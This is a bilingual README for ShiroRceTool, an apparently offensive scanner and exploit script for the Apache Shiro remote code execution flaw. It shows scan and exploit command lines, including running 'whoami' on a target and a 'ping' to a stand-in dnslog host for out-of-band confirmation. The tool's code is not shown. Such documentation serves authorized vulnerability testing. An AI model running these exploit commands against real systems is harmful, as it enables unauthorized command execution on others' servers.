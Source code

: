 # ShiroRceTool
一个简单的Shiro RCE检测和利用脚本。- Simple scanner and exploit for Shiro RCE.
  
![](data/img/img1.png)

## 声明 WARNING
* 仅供安全人员验证、测试是否存在此漏洞。  
* It is only for security researcher to verify and test whether this vulnerability exists.  
* **使用此工具检测必须遵守请使用者遵守[《中华人民共和国网络安全法》](http://www.cac.gov.cn/2016-11/07/c_1119867116.htm) 以及当地的法律，勿用于非授权的测试，本人不负任何连带法律责任。**  
* **Users must obey [the Cybersecurity Law of the People's Republic of China](http://www.cac.gov.cn/2016-11/07/c_1119867116.htm)  and local laws.**

## 使用方法 - Usage
**你可以根据你的需求调整data目录下的keys.enable.txt和keys.disable.txt。**  
**You can change the data/keys.enable.txt and data/keys.disable.txt as you like.**  
  
**建议只使用Scan模式检测漏洞，不建议在不了解该漏洞的情况下使用Exploit模式。**  
**It is recommended to only use Scan mode to verify vulnerabilities, and it is not recommended to use Exploit mode without a good knowledge of this vulnerability.**  

* 安装需要的包 - Install required packages  
```bash
pip install -r requirements.txt
```

* 检查该漏洞 - To scan this vulnerability
```bash
python ShiroRceTool.py -m scan -u "http://example.com"
```
  
* 执行命令 (不回显) - Execute command with no echo
```bash
python ShiroRceTool.py -m exploit -u "http://example.com" -c "ping dnslog.example.com"
```
  
* 执行命令（尝试回显） - Execute command with echo
```bash
python ShiroRceTool.py -m exploit -u "http://example.com" -c "whoami" -e
```
  
* 获取帮助 - Get help
```bash
python ShiroRceTool.py
 ____  _     _           ____         _____           _
/ ___|| |__ (_)_ __ ___ |  _ \ ___ __|_   _|__   ___ | |
\___ \| '_ \| | '__/ _ \| |_) / __/ _ \| |/ _ \ / _ \| |
 ___) | | | | | | | (_) |  _ < (_|  __/| | (_) | (_) | |
|____/|_| |_|_|_|  \___/|_| \_\___\___||_|\___/ \___/|_|

                        By: Hack3rHan

usage: ShiroRceTool.py [-h] [-m MODE] [-u URL] [-c CMD] [-e]

options:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  "exploit" or "scan".
  -u URL, --url URL     URL of the target.
  -c CMD, --cmd CMD     Command to execute.
  -e, --echo            Echo mode.
```
## 示例 Example
  
![](data/img/img2.png)
